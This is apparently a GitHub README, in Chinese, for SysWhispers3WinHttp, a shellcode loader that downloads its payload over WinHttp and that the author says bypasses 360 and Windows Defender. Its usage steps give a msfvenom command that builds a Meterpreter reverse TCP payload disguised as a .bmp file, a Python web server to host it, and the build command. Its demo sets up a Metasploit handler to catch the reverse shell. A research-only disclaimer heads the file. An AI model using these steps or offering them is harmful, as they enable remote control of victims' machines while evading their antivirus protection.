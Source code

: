 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3项目增添WinHttp分离加载功能并使用32位GCC进行编译，文件大小14KB，可免杀绕过360核晶防护与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o test.bmp

// 2. 使用python3开启Web服务（或使用CobaltStrike之Scripted Web Delivery功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c 第40行IP地址并使用32位GCC进行编译
gcc .\syscalls.c .\SysWhispers3WinHttp.c -o .\SysWhispers3WinHttp.exe -masm=intel -fpermissive -w -s -lwinhttp
```

注：32位GCC下载地址为https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1


## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

![360demo](https://user-images.githubusercontent.com/128464183/226871711-0ba4d10c-188e-46de-8c4c-fd7b3693f604.PNG)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
